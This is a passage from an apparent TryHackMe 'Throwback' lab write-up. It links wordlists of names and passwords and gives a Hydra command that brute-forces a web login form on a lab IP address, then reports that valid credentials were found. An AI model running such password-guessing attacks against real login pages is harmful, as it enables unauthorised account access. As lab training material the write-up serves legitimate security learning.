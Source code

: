 ![passes](/assets/img/tryhackme/throwback/pass_creds.png)

You can download users list from [here](/assets/files/tryhackme/throwback/names.txt).

You can download passwords list from [here](/assets/files/tryhackme/throwback/pass.txt).

##### 4.2.1 Hydra
 First, We need to get the user and password parameter in the request. We can get it with `inspect element`
![inspect element](/assets/img/tryhackme/throwback/inspect element.png)
Now, we can run hydra:
```bash
hydra -L names.txt -P pass.txt 10.200.154.232 http-post-form "/src/redirect.php:login_username=^USER^&secretkey=^PASS^:Unknown user or password incorrect"
```
Here we got some valid credentials.

